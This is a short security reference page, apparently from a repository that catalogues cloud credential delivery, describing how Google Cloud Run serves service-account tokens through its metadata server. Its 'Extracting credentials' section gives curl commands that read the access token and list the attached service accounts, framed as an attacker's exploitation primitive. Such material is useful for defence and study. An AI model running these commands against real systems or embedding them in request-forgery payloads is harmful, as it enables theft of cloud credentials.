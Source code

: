 # Google Cloud Run

[Google Cloud Run](https://cloud.google.com/run?hl=en) is a managed platform for running web applications.

| Property      | Value                          |
| ----------- | ------------------------------------ |
| Credentials delivery mechanism       | [Served through link-local metadata service](../types-of-credentials-delivery.md#served-through-link-local-metadata-service)  |
| Protection type       | Header requires hardcoded value |
| Exploitation primitives    | `Query arbitrary URL with arbitrary HTTP headers` |

## Extracting credentials

The Google Cloud metadata server is available at `169.254.169.254` and requires an HTTP header `Metadata-Flavor` set to `Google`:

```bash
curl -H "Metadata-Flavor: Google" http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token
```

You can also check if non-default service accounts are attached:

```bash
curl -H "Metadata-Flavor: Google" http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/
```

## References

- https://cloud.google.com/run/docs/securing/service-identity